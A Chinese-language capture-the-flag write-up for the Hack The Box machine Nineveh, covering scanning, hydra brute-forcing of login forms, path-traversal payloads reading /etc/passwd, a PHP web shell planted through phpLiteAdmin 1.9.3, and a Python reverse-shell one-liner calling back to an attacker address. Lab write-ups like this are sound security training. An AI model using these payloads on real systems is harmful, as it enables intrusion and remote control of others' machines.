

# Nineveh

nmap -p- --min-rate=1000 -sC -sV 10.129.207.79

[http://10.129.206.234/](http://10.129.206.234/) 80port長這樣

[https://10.129.206.234/](http://10.129.206.234/) 443port長這樣

用feroxbuster爆爆看80port的頁面，feroxbuster -u [http://10.129.206.234:80](http://10.129.206.234/) -q

歐爆到了department的頁面，過去後發現是登錄頁面。

F12後的右下角有login.php，點進去看到了一點線索，usernamer可能是amrois或是admin。

看到MySQL就用了SQLI去試，但沒有試出報錯。都是invalid username。

於是用了剛剛看到的amrois，拿去hydra爆爆看。結果username也不是amrois。

hydra -l amrois -P /usr/share/wordlists/rockyou.txt 10.129.206.234 http-post-form "/department/login.php:user=^USER^&pass=^PASS^:F=login failed”

最後嘗試了admin，res不一樣，找到其中一個user了。

一樣拿去hydra爆爆看，爆到了。admin:1q2w3e4r5t

hydra -l admin -P rockyou.txt 10.129.206.234 http-post-form "/department/login.php:username=^USER^&password=^PASS^:invalid”

login進去看看，是這個頁面，找找看線索。

這邊感覺是用LFI，mange.php?notes=，嘗試過../../../../etc/passwd、....//....//....//....//etc/passwd、../../../../var/www/html/config.php、../../../../var/www/html/db.php、../../../../home/*/user.txt，試過都會顯示no note is selected。

下個方法偽裝成 files，在試一次上面的方法，結果一樣沒反應。

[http://10.129.206.234/department/manage.php?notes=files/ninevehNotes.txt](http://10.129.206.234/department/manage.php?notes=files/ninevehNotes.txt)後面想說把files拿掉試試看。

[http://10.129.206.234/department/manage.php?notes=/ninevehNotes.txt](http://10.129.206.234/department/manage.php?notes=files/ninevehNotes.txt)../../../../../../etc/passwd

成功了!

但這個要跟其他漏洞串接才有效果，比如像PHP執行檔那樣。

換爆另外一個頁面，https://10.129.206.234，爆出來有db的頁面。

進來後是phpLiteAdmin的頁面，只要輸入password。

用hydra破解看看，恩它要破很久，看了答案，password123

hydra -l "" -P /usr/share/wordlists/rockyou.txt 10.129.206.234 http-post-form "/db/index.php:password=^PASS^:Incorrect" -s 443 -S -vV

頁面上有版本，用searchsploit查一下，searchsploit phpLiteAdmin 1.9

發現第一個是說≤1.9.3的漏洞，看一下說明。

進來後看到這個頁面。

照著上面的說明，創一個hash.php的腳本資料庫，在下面建一個table叫test，把cmd的指令丟到filed裡，接著去觸發這個腳本，就可以成為這台主機的使用者。<?php system($_GET["cmd"]); ?>

都創完接著就是觸發它，看一下hack.php的位置在哪裡。

接著回到department的頁面，觸發這個php把它串接起來，成功成為使用者。

下一步準備reverseshell，把cmd=後面的指令改掉，接著在本機開監聽。

python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")’

拿去urlencode後，成功reverseshell。

進來後發現沒有cat user.txt的權限，要提權才行。

[Nineveh提權](https://www.notion.so/Nineveh-34b6b41a37848095b592ce3bc67b7e61?pvs=21)